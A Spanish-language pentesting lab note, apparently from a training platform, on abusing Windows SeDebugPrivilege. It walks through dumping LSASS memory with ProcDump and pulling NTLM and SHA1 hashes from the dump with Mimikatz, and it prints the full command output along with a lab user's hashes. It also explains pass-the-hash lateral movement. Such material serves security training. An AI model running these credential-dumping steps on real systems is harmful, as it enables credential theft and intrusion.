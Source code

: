 # SeDebugPrivilege 

El privilegio [**SeDebugPrivilege**](https://learn.microsoft.com/es-es/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/debug-programs) permite a un usuario o proceso depurar otros procesos, incluyendo los del sistema. Normalmente solo los **administradores** lo tienen asignado, ya que concede la capacidad de leer memoria de procesos protegidos y modificar estructuras críticas del sistema operativo.

Puede asignarse a través de políticas locales o de dominio, bajo:

```
Computer Configuration > Windows Settings > Security Settings > Local Policies > User Rights Assignment > Debug programs
```

Este privilegio suele entregarse a **desarrolladores** o personal técnico que necesita depurar aplicaciones o servicios. Sin embargo, representa un **riesgo elevado**, ya que puede usarse para capturar información sensible de la memoria o alterar el comportamiento del sistema.

---

## Contexto en pentesting

Durante un **pentest interno**, `SeDebugPrivilege` es un objetivo interesante porque permite realizar acciones con privilegios elevados sin necesidad de pertenecer al grupo de administradores.

Por ejemplo:

* Si se obtienen múltiples **hashes NTLMv2** con herramientas como **Responder** o **Inveigh**, conviene priorizar el cracking de cuentas que podrían tener este privilegio (p. ej., cuentas de desarrolladores).
* Un usuario puede **no ser administrador local**, pero tener este derecho asignado, lo cual **no siempre es visible remotamente** (por ejemplo, mediante `BloodHound`). Por eso es útil comprobarlo manualmente al tener acceso RDP o sesión local.


<img width="1640" height="351" alt="image" src="https://github.com/user-attachments/assets/1219102e-0686-4112-b398-807edda96d78" />


---

# Volcado de LSASS con ProcDump

Tras iniciar sesión como un usuario al que se le asignó el derecho **Debug programs** y abrir una shell elevada, comprobamos que **SeDebugPrivilege** aparece listado.

```cmd
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

Podemos usar [**ProcDump**](https://learn.microsoft.com/es-es/sysinternals/downloads/procdump) del paquete `Sysinternals` para aprovechar este privilegio y volcar la memoria de un proceso. Un buen candidato es el proceso **Local Security Authority Subsystem Service (LSASS)**, que almacena credenciales de usuario tras el inicio de sesión.

```cmd
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Este procedimiento genera un volcado de memoria (`lsass.dmp`) que puede analizarse posteriormente en un entorno controlado para extraer credenciales o validar el impacto del privilegio **SeDebugPrivilege** en la seguridad del sistema.

---

# Extracción de credenciales con Mimikatz

`Mimikatz` es una herramienta para Windows creada por Benjamin DELPY que permite extraer credenciales (contraseñas en texto, hashes NTLM, tickets Kerberos) y realizar pruebas de post‑explotación en entornos controlados.

Esto funciona correctamente; podemos cargar el volcado en `Mimikatz` usando el comando `sekurlsa::minidump`. Tras ejecutar `sekurlsa::logonpasswords` obtenemos el hash NTLM de la cuenta de administrador local que inició sesión de forma local.

**Nota:** siempre es buena idea teclear `log` antes de ejecutar comandos en Mimikatz; así toda la salida de comandos se guardará en un archivo `.txt`. Esto resulta especialmente útil al volcar credenciales de un servidor que puede tener muchos conjuntos de credenciales en memoria.

Comandos usados

- `log`
Activa el guardado de toda la salida de Mimikatz en un fichero (mimikatz.log). Útil para conservar evidencias.

- `sekurlsa::minidump <archivo.dmp>`
Carga un volcado de memoria (minidump) de LSASS u otro proceso para su análisis offline.

- `sekurlsa::logonpasswords`
Extrae las credenciales (NTLM, cleartext cuando están disponibles, tickets, etc.) del minidump cargado o del sistema en vivo.

Podemos usarlo para realizar un ataque *pass-the-hash* y moverse lateralmente si la misma contraseña de administrador local se utiliza en uno o varios sistemas adicionales (común en organizaciones grandes).

`Pass-the-hash`: Es una técnica en la que un atacante usa directamente el hash de la contraseña como credencial para autenticarse en otros sistemas, sin necesitar conocer la contraseña en texto plano. Muchos protocolos de autenticación Windows aceptan el hash para probar identidad; por eso si se tiene el hash válido se podría utilizar para autenticarse bajo este método.

```
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz

 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
 '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP>

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

---





